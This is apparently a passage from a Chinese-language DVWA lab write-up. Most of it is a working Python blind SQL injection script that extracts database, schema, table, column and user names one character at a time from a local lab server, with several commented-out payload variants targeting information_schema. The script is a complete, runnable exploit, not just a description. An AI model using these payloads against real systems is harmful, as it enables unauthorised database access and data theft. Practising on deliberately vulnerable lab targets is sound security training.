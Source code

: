 ``````
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559652774534](assets/1559652774534.png)

#### 查询字段数据

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+table_name+from+information_schema.tables+where+table_schema%3Ddatabase%28%29+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+column_name+from+information_schema.columns+where+table_name%3D%27users%27+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+first_name+from+dvwa.users+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

``````